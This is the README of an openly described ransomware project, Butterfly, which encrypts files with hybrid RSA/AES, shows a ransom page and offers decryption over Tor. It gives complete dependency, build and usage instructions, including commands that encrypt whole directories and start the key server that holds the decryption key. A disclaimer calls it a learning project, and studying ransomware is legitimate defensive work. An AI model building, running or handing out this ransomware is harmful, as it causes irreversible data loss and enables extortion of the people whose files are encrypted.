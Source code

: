 # Butterfly
[![Build Status](https://jenkins.bierschi.com/buildStatus/icon?job=butterfly%2Fmaster)](https://jenkins.bierschi.com/job/butterfly/job/master/)
[![License: MIT](https://img.shields.io/badge/License-MIT-green.svg)](https://github.com/bierschi/butterfly/blob/master/LICENSE)
[![Linux](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![Windows](https://svgshare.com/i/ZhY.svg)](https://svgshare.com/i/ZhY.svg)
<!--[![macOS](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)-->

<p align="left">
<img src="images/butterfly.png" width="300" height="300">
</p>

Butterfly is a cryptographic ransomware with the following features

- Hybrid Encryption (RSA Asymmetric/AES Symmetric Encryption) :heavy_check_mark:
- Offline Encryption :heavy_check_mark:
- Supports multiple Operating Systems (Linux :heavy_check_mark:, Windows :arrows_counterclockwise:, MacOS :x:)
- Supports over 300 File Extensions :heavy_check_mark:
- Webserver [bflyServerApp](https://github.com/bierschi/butterfly/tree/master/webserver) for a secure remote decryption :heavy_check_mark:
- Ransom Visualization with Browser :heavy_check_mark: GUI :x: Wallpaper :x:
- Decryption over a Tor Hidden Service :heavy_check_mark:
- Connection to the TOR Network :arrows_counterclockwise:
- Bitcoin Payments :x:

## Disclaimer

Butterfly is a full-featured cryptographic ransomware application that irrevocably encrypts your data. This means careless
use leads to permanent data loss (No liability is accepted).
The main purpose for the butterfly project was to build knowledge related to the increased occurrence of ransomwares. <br>

:exclamation: **Butterfly was never supposed to harm or threat other computers** :exclamation:

## Dependencies

Install compilers for the toolchain
<pre><code>
# GCC on Ubuntu
sudo apt-get install gcc g++

# Windows cross compiler for Ubuntu
sudo apt-get install mingw-w64
</code></pre>

Install openssl and boost filesystem libraries
<pre><code>
sudo apt-get install -y libssl-dev libboost-filesystem-dev
</code></pre>

If you enable the logging definition with cmake you also need to install the boost logging library
<pre><code>
sudo apt-get install -y libboost-log-dev
</code></pre>

## Build Butterfly

Build butterfly
<pre><code>
# Clone the repo and create the build/ folder
git clone https://github.com/bierschi/butterfly.git && cd butterfly
mkdir build && cd build

# Execute cmake with options
cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake ../
(cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake -DUNITTESTS=ON -DLOGGING=ON ../)

# Build the binary
make
</code></pre>

CMake Arguments 
<pre><code>
-DUNITTESTS=ON   # Enables the Unit Tests
-DLOGGING=ON     # Enables the boost logging framework
</code></pre>

## Usage and Examples

Print the available arguments for butterfly
<pre><code>
./butterfly --help
</code></pre>

<pre><code>
butterfly is a cryptographic ransomware

Usage: 
	butterfly --dir /home/butterfly/data/
	butterfly --dir /home/butterfly/data/ --protected

	butterfly --encrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ --tor

	butterfly --decrypt /home/butterfly/data/ --key /home/butterfly/butterfly/masterkeys/SPrivateRSA.pem

Options:
	-d,   --dir         Directory path to start the cryptographic ransomware (Encryption+Visualization+Payment+Decryption)
	-enc, --encrypt	    Encrypts all files in provided directory path and shows the ransom visualization
	-dec, --decrypt	    Decrypts all files in provided directory path, if the request to the remote server was successful
	-t,   --tor	    Remote decryption over the TOR network
	-k,   --key         Masterkey for the decryption, if the remote server is not used (Corresponds to the embedded server public key)
	-p,   --protected   Saves all key files to the system (For manual decryption)
	-c,   --config	    Logger config path
	-v,   --version	    Show version information and quit
	-h,   --help	    Show this message and quit

butterfly homepage at: https://github.com/bierschi/butterfly
</code></pre>

Test the full functionalities of `butterfly`
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Run the butterfly binary with --dir argument
./butterfly --dir /home/butterfly/data/
</code></pre>

Test the encryption + decryption mechanism separately (+ with remote decryption)
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem


# Start only the encryption
./butterfly --encrypt /home/butterfly/data

# Start only the decryption
./butterfly --decrypt /home/butterfly/data
</code></pre>

## Unit Tests

Install GTest
<pre><code>
sudo apt-get install libgtest-dev
cd /usr/src/gtest
sudo cmake CMakeLists.txt
sudo make

#copy or symlink libgtest.a and libgtest_main.a to your /usr/lib folder
sudo cp *.a /usr/lib
</code></pre>

Enable the Unit Tests with 
<pre><code>
cmake ../ -DUNITTESTS=ON 
</code></pre>

List all tests
<pre><code>
./butterflyUnitTests --gtest_list_tests
</code></pre>

Run the `butterfly` units
<pre><code>
./butterflyUnitTests
</code></pre>

## Changelog
All changes and versioning information can be found in the [CHANGELOG](https://github.com/bierschi/butterfly/blob/master/CHANGELOG.md)

## License
Copyright (c) 2021 Bierschneider Christian. See [LICENSE](https://github.com/bierschi/butterfly/blob/master/LICENSE)
for details